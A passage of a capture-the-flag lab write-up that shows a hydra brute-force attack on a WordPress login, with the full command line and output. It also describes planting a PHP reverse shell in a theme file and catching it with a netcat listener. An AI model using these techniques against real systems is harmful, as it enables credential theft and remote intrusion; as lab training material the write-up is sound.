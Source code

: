 ```
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-post-form] host: <ip-address>   login: <redacted>   password: password
^C[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Great, we've got a username! Now can we do the same to get the password? Unfortunately it was taking a very long time...after taking a closer look at the `fsocity.dic` wordlist, I realized there were lots of duplicate entires. I filtered out all the duplicates:

```
$ sort fsocity.dic | uniq > fsocity.dic.unique
```

Now I'll try running `hydra` again:

```
$ hydra -l <redacted> -P fsocity.dic.unique <ip-address> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -v
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 12:07:57
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://<ip-address>:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 947.00 tries/min, 947 tries in 00:01h, 10505 to do in 00:12h, 16 active
[STATUS] 944.00 tries/min, 2832 tries in 00:03h, 8620 to do in 00:10h, 16 active
[VERBOSE] Page redirected to http://<ip-address>/wp-admin/
[80][http-post-form] host: <ip-address>   login: <redacted<>   password: <redacted>
[STATUS] attack finished for <ip-address> (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-26 12:14:26
```

We got it! Now we can login to the Wordpress site using these credentials.

## 3. Wordpress Exploitation

Using the credentials we found in `/license` (or from brute forcing), we are able to login to the Wordpress site as the admin user. Right away we see this is Wordpress 4.3.1 running the "twentyfifteen" theme. As the admin user, we may be able to edit some php file included in the theme, enabling us to execute arbitrary code.

For example, if you navigate to Appearance --> Editor in the left menu panel, you'll be able to edit theme files. I'll take the first file listed, `404.php`, and add my own php reverse shell script in it's place. Now, I'll open a netcat listener on my machine to receive the reverse shell, then navigate to `http://<ip-address>/wp-content/themes/twentyfifteen/404.php` in my browser:
